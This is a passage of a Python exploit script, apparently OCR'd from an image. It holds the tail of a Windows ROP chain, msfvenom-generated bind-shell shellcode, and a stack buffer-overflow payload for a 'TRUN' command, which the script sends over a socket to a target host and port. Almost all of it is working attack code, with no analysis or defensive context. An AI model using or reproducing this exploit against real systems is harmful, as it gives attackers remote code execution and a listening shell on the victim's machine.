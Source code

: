 ``` python
        #[---INFO:pushad:---]
        0x770f9589,  # PUSHAD # RETN [ntdll.dll] ** REBASED ** ASLR
    ]
    return b''.join(struct.pack('<I', _) for _ in rop_gadgets)


# msfvenom -p windows/shell_bind_tcp -f python -v SHELL -b '\x00'
SHELL =  b""
SHELL += b"\xbe\x9a\xd8\xa3\xeb\xd9\xc6\xd9\x74\x24\xf4\x5d"
SHELL += b"\x2b\xc9\xb1\x53\x31\x75\x12\x83\xc5\x04\x03\xef"
SHELL += b"\xd6\x41\x1e\xf3\x0f\x07\xe1\x0b\xd0\x68\x6b\xee"
SHELL += b"\xe1\xa8\x0f\x7b\x51\x19\x5b\x29\x5e\xd2\x09\xd9"
SHELL += b"\xd5\x96\x85\xee\x5e\x1c\xf0\xc1\x5f\x0d\xc0\x40"
SHELL += b"\xdc\x4c\x15\xa2\xdd\x9e\x68\xa3\x1a\xc2\x81\xf1"
SHELL += b"\xf3\x88\x34\xe5\x70\xc4\x84\x8e\xcb\xc8\x8c\x73"
SHELL += b"\x9b\xeb\xbd\x22\x97\xb5\x1d\xc5\x74\xce\x17\xdd"
SHELL += b"\x99\xeb\xee\x56\x69\x87\xf0\xbe\xa3\x68\x5e\xff"
SHELL += b"\x0b\x9b\x9e\x38\xab\x44\xd5\x30\xcf\xf9\xee\x87"
SHELL += b"\xad\x25\x7a\x13\x15\xad\xdc\xff\xa7\x62\xba\x74"
SHELL += b"\xab\xcf\xc8\xd2\xa8\xce\x1d\x69\xd4\x5b\xa0\xbd"
SHELL += b"\x5c\x1f\x87\x19\x04\xfb\xa6\x38\xe0\xaa\xd7\x5a"
SHELL += b"\x4b\x12\x72\x11\x66\x47\x0f\x78\xef\xa4\x22\x82"
SHELL += b"\xef\xa2\x35\xf1\xdd\x6d\xee\x9d\x6d\xe5\x28\x5a"
SHELL += b"\x91\xdc\x8d\xf4\x6c\xdf\xed\xdd\xaa\x8b\xbd\x75"
SHELL += b"\x1a\xb4\x55\x85\xa3\x61\xc3\x8d\x02\xda\xf6\x70"
SHELL += b"\xf4\x8a\xb6\xda\x9d\xc0\x38\x05\xbd\xea\x92\x2e"
SHELL += b"\x56\x17\x1d\x41\xfb\x9e\xfb\x0b\x13\xf7\x54\xa3"
SHELL += b"\xd1\x2c\x6d\x54\x29\x07\xc5\xf2\x62\x41\xd2\xfd"
SHELL += b"\x72\x47\x74\x69\xf9\x84\x40\x88\xfe\x80\xe0\xdd"
SHELL += b"\x69\x5e\x61\xac\x08\x5f\xa8\x46\xa8\xf2\x37\x96"
SHELL += b"\xa7\xee\xef\xc1\xe0\xc1\xf9\x87\x1c\x7b\x50\xb5"
SHELL += b"\xdc\x1d\x9b\x7d\x3b\xde\x22\x7c\xce\x5a\x01\x6e"
SHELL += b"\x16\x62\x0d\xda\xc6\x35\xdb\xb4\xa0\xef\xad\x6e"
SHELL += b"\x7b\x43\x64\xe6\xfa\xaf\xb7\x70\x03\xfa\x41\x9c"
SHELL += b"\xb2\x53\x14\xa3\x7b\x34\x90\xdc\x61\xa4\x5f\x37"
SHELL += b"\x22\xd4\x15\x15\x03\x7d\xf0\xcc\x11\xe0\x03\x3b"
SHELL += b"\x55\x1d\x80\xc9\x26\xda\x98\xb8\x23\xa6\x1e\x51"
SHELL += b"\x5e\xb7\xca\x55\xcd\xb8\xde"

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    create_rop_chain() +
    # Align stack
    b'\x83\xE4\xF0' +   # and esp, 0xfffffff0
    SHELL +
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```
